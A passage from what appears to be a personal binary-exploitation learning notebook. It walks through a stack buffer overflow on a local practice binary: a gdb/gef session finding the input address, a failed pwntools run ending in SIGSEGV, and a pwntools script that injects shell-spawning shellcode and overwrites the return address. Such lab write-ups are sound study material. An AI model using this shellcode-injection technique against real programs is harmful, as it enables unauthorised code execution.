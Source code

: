 ```c
End of assembler dump.
gef➤  b *main+55
Breakpoint 1 at 0x401190
gef➤  r
Starting program: /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof 
What are you going to say?
AAAAAAAA
Thank you, have a nice day!

Breakpoint 1, 0x0000000000401190 in main ()
...
gef➤  grep AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4056b0 - 0x4056ba  →   "AAAAAAAA\n" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe010 - 0x7fffffffe018  →   "AAAAAAAA" 

```

So we see that our input is stored at address `0x7fffffffe010`. So let's chuck that into our exploit, and it should work.

```c
 tango@arch  assets   master ±  python exploit-x86_64.py
[*] '/home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof': pid 63543
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
[*] Got EOF while reading in interactive
$ ls
[*] Process '/home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof' stopped with exit code -11 (SIGSEGV) (pid 63543)
[*] Got EOF while sending in interactive

```

Ah, it didn't seem to work. What's happened? Let's attach this to gdb, and figure out the reason

{% code title="exploit.py" %}
```c
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

input("Waiting....")
shellcode = asm(shellcraft.sh())
payload = shellcode
payload += b"A"*(72 - len(shellcode))
payload += p64(0x7fffffffe010)

p.sendline(payload)
p.interactive()
```
{% endcode %}
